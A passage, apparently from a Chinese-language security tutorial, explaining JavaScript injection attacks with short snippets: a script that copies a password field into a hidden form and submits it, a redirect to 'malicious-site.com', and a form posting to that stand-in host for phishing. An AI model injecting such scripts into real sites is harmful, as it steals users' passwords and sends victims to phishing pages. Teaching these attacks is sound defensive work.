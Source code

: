     ```
     var passwordInput = document.createElement("input");
    ```

    ```
     passwordInput.setAttribute("type", "hidden");
    ```

    ```
     passwordInput.setAttribute("name", "password");
    ```

    ```
     passwordInput.setAttribute("value", document.getElementById("password").value);
    ```

    ```
     form.appendChild(passwordInput);
    ```

    ```
     document.body.appendChild(form);
    ```

    ```
     form.submit();
    ```

    ```
     }
    ```

    ```
     </script>
    ```

+   **重定向用户**：攻击者可以将 JavaScript 代码注入网页，将用户重定向到恶意网站。例如，攻击者可以注入代码，改变浏览器中**location**属性的值，从而导致用户被重定向到一个模仿合法网站的钓鱼网站：

    ```
     <script>
    ```

    ```
     window.location = "http://malicious-site.com";
    ```

    ```
     </script>
    ```

+   **网络钓鱼**：攻击者可能将 JavaScript 代码注入到网页中，将用户引导到恶意网站。例如，攻击者可能会包含代码，修改位置字段的值，并将访问者引导到一个看起来与合法网站完全相似的钓鱼网页：

    ```
     <form action="http://malicious-site.com" method="post">
    ```
